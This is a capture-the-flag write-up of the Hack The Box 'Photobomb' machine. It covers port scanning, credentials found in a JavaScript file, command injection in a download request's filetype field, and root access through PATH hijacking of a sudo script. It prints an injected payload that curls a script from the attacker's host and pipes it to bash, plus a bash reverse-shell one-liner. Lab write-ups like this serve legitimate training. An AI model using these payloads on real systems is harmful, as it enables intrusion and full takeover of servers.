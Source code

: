 +++
title = "HTB Photobomb"
date = "2023-04"
author = "Celeste"
authorTwitter = "" #do not include @
cover = ""
tags = ["HTB", "Writeup"]
keywords = ["", ""]
description = ""
showFullContent = false
readingTime = false
hideComments = false
color = "" #color from the theme settings
+++

#### Overview
This is an easy linux box with fairly straight forward command injection leading to initial access and path manipulation to use a binary we can run as root to escalate privileges. 

#### Enumeration 

```
$ nmap -p- 10.10.11.182 --open --min-rate 5000 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 22:15 AEST
Nmap scan report for 10.10.11.182
Host is up (0.30s latency).
Not shown: 54219 closed tcp ports (conn-refused), 11314 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

So we have
- Port 80  HTTP
- Port 20 SSH

Navigating to the Webpage. The address doesn't resolve to i add `10.10.11.182 photobomb.htb` to the end of my /etc/hosts file. 

I can then view the page in my browser. in summary we are told to "click here" to get started and the credentials are in our welcome pack. 

When you click of the "click here" link you are redirected to /printer and prompted to login. I tried a couple of default creds with no luck and went to see what else i could find. 

Viewing the source of the home page you can see photobomb.js it linked. 

![source](hsource.png)

Veiwing photobomb.js gives you creds nice and easy. 
```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

We can now log in to photobomb.htb/printer with these credentials. 
```
user: pH0t0
password: b0Mb!
```

#### Initial Access

![login](login.png)

The next page allows us to download images in various formats. 
Capturing the request sent to the server when we click the download link we see three paramaters we could potentially inject commands into. 
```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=30x20
```
I did try all three and only found success injecting into the filetype paramater. 

To get a shell i injected a command to curl a bash script from a python server I had started with `python3 -m http.server` containing a basic bash reverse shell `bash -i >& /dev/tcp/10.10.14.24/1299 0>&1` and piped it into bash. Before sending this request i had started a netcat listener on port 1299. 

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;curl+10.10.14.24:8000/shell.sh|bash&dimensions=30x20
```

Once on the box, i got the user.txt in wizards home directory and started looking for a vector for privilege escalation. 

#### Privilege Escalation

```sh
wizard@photobomb:~/photobomb$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Our user can run cleanup.sh as root, so if we can get cleanup.sh to change permissions of bash or spawn a shell for us we can have a shell as root. 


I check the permissions of cleanup.sh and read the contents. 
```
wizard@photobomb:~/photobomb$ ls -l /opt/cleanup.sh
ls -l /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15  2022 /opt/cleanup.sh
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```

What's interesting here is that all of the binaries called in this script are called by their full path except the `find` at the end. This means the computer will search for this binary in the PATH environment variable and hope for the best. If we can manipulate the bash variable however we can get the script to run anything we would like so long as it's named `find`. 

So i wrote a simple bash script to spawn a bash shell and names it find in /tmp

```bash
#!/bin/bash

/bin/bash
```

I then made my `find` executable and ran cleanup.sh with PATH set to /tmp:$PATH so that the first `find` executable cleanup.sh would find would be my bash script. 
```
wizard@photobomb:/tmp$ chmod +x find
chmod +x find
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# 
```
And we have a root shell. Then all that's left is to cat /root/root.txt to get the root flag and you're done. 